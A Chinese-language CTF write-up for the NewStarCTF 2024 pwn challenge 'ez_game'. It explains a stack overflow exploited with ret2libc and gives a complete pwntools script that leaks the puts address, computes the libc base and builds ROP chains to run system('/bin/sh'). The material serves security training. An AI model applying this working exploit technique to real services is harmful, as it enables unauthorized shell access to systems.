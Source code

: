 # ez_game

![image (23)](assets/images/wp/2024/week2/image (23).png)

明显的栈溢出且没有后门函数

再checksec一下，没有开启pie

![image (24)](assets/images/wp/2024/week2/image (24).png)

直接打ret2libc（但是得进行栈对齐）

1.先通过puts泄露出puts地址，通过puts地址与libc基地址的偏移得到libc基地址，并返回main函数进行第二次溢出，实现getshell

2.构建system("/bin/sh")取shell

tips：用ret地址进行栈对齐

EXP:

```Python
from pwn import *

context(os='linux',arch='amd64',log_level='debug')

ifremote=0
if ifremote==1:
    io=remote('0.0.0.0',9999)
else:
    io=process('./attachment')

elf = ELF('./attachment')
#libc=ELF("./libc-2.31.so")
libc=elf.libc

#gdb.attach(io)
#pause()

puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
main_addr=elf.symbols['main']
ret_addr=0x0000000000400509

payload=b'a'*0x58+p64(0x0000000000400783)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
io.recvuntil(b'Welcome to NewStarCTF!!!!\n')
io.sendline(payload)
io.recvuntil(b'\x0a')
puts_addr=u64(io.recv(6).ljust(8,b'\x00'))
print("puts_addr======================>",hex(puts_addr))

libc_base=puts_addr-libc.sym['puts']
system_addr=libc_base+libc.sym['system']
bin_sh_addr=libc_base+0x1b45bd

payload=b'a'*0x58+p64(0x0000000000400783)+p64(bin_sh_addr)+p64(ret_addr)+p64(system_addr)
io.recvuntil(b'Welcome to NewStarCTF!!!!\n')
io.send(payload)

io.interactive()
```